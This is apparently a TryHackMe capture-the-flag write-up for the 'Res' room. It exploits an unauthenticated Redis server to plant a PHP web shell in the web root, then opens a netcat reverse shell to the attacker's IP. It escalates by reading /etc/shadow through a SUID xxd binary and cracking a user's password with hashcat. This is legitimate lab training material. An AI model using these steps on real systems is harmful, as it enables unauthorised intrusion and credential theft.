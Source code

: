 
# TryHackMe: Res (Write-up)

Res is a TryHackMe CTF.
Has a vulnerable in-memory data-structure. 

## Nmap scan

The scan shows there are two services open.
HTTP on 80, Redis on 6379,

```
kali@kali:~/Desktop/repos/ctf/try-hack-me/res$ nmap -A -p- 10.10.31.234 | tee nmap.txt                                 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 01:28 BST
Nmap scan report for 10.10.31.234
Host is up (0.054s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.44 seconds
```

Redit is a database system. 
The version used on this server is 6.0.7.

## Redis Setup 

I'm not particularly familiar with Redis.

There's _[cli](https://redis.io/topics/rediscli)_ that can be used to send commands to Redis.

Fortunately there's some nice [Redis documentation](https://redis.io/documentation) too.

If you're running kali you might need to install Redis.
It was not installed by default for me.

```shell
sudo apt install redis
```

Installing Redis gives us the `redis-cli` command.
We can connect to Redis servers with the following

```shell
redis-cli -h XXX.XXX.XXX.XXX -p YYYY
```

```
kali@kali:~/Desktop/repos/ctf/try-hack-me/res$ redis-cli -h 10.10.31.234 -p 6379
10.10.31.234:6379>
```

At which point we can inject code into the `/var/www/html` directory.
This is where the apache default page will be sat.

```shell
kali@kali:~/Desktop/repos/ctf/try-hack-me/res$ redis-cli -h 10.10.31.234 -p 6379                                    
10.10.31.234:6379[1]> ping
PONG
10.10.31.234:6379[1]> flushall
OK
10.10.31.234:6379[1]> config set dir /var/www/html
OK
10.10.31.234:6379[1]> config set dbfilename true.php
OK
10.10.31.234:6379[1]> SET PAYLOAD "<?php echo shell_exec(\$_GET['cmd']);?>"
OK
10.10.31.234:6379[1]> BGSAVE
Background saving started
```

This will create file `true.php`. 
The `cmd` parameter will allow us to execute code.

Nagivate to: `http://10.10.31.234/true.php?cmd=ls`.
Output is a bit messy, but we get RCE.
See section `dump.rdb index.html true.php`.

```shell
## ls 
REDIS0009� redis-ver6.0.7� redis-bits�@�ctime�w_used-mem�x�aof-preamble��See section ``�See section ``AYLOAD&dump.rdb index.html true.php ��e�r�*�~
```

```shell
## ls -lah ../
REDIS0009�	redis-ver6.0.7�
redis-bits�@�ctime�w_used-mem�x�aof-preamble��#�#AYLOAD&total 12K
drwxr-xr-x  3 root root 4.0K Sep  2 09:54 .
drwxr-xr-x 12 root root 4.0K Sep  2 09:54 ..
drwxrwxrwx  2 root root 4.0K Oct  2 18:01 html
��e�r�*�~
```

```shell
## http://10.10.31.234/true.php?cmd=ls%20-lah%20/home;%20whoami;%20groups;%20cat%20/etc/passwd

REDIS0009�	redis-ver6.0.7�
redis-bits�@�ctime�w_used-mem�x�aof-preamble��
�
AYLOAD&total 12K
drwxr-xr-x  3 root   root   4.0K Sep  1 17:02 .
drwxr-xr-x 22 root   root   4.0K Sep  1 18:57 ..
drwxr-xr-x  5 vianka vianka 4.0K Sep  2 13:52 vianka
www-data
www-data
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
��e�r�*�~
```

So, we know there's some user `vianka`. 
We're currently running commands as `www-data`.
We're in the `www-data` group.

## Get reverse shell

Its time we got shell!

/home/vianka doesn't contain any SSH keys.
We can use a reverse netcat shell.
Then upgrade, potentially with Python PTY.

```
10.10.31.234/true.php?cmd=nc 10.11.8.219 4444 -e /bin/sh
```

Running the above after we start listening on our attacker machine connects us.
I tried the mkfifo reverse shell at first. This failed.
I than ran `man nc` and saw the servers version allows `-e` flag.
Which is great, and simple to use.

```
kali@kali:~/Desktop/repos/ctf/try-hack-me/res$ nc -lvp 4444
listening on [any] 4444 ...
10.10.31.234: inverse host lookup failed: Unknown host
connect to [10.11.8.219] from (UNKNOWN) [10.10.31.234] 47752
whoami
www-data
```

## Upgrade shell

First check we have Python.
We do.
Then upgrade shell, and call bash.

```shell
whereis python
python: /usr/bin/python2.7 /usr/bin/python /usr/bin/python3.5m /usr/bin/python3.5 /usr/lib/python2.7 /usr/lib/python3.5 /etc/python2.7 /etc/python /etc/python3.5 /usr/local/lib/python2.7 /usr/local/lib/python3.5 /usr/share/python /usr/share/man/man1/python.1.gz
python -c 'import pty; pty.spawn("/bin/sh")'
$ bash
bash
www-data@ubuntu:/var/www/html$
```
## Privesc

Exploit xxd (has SUID)

```shell
find -type f -perm /4000 2>/dev/null
```

We can get /etc/shadow.

```shell
www-data@ubuntu:/var/www/html$ xxd /etc/shadow | xxd -r
xxd /etc/shadow | xxd -r
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Run viankas password through `hashcat`.
Make sure to escape the `$`s... `\$`.

```shell
hashcat -a 0 -m 1800 \$6\$2p.tSTds\$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/
```

Switch user to `vianka`.

```shell
su vianka
Password: beautiful1
```

```shell
vianka@ubuntu:~$ sudo -l
```

Check `vianka`'s `sudo -l`.

```shell
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

We can run all commands with `sudo`.


```shell
vianka@ubuntu:~$ sudo cat /root/root.txt
sudo cat /root/root.txt
thm{redacted}
```

And there we have it.


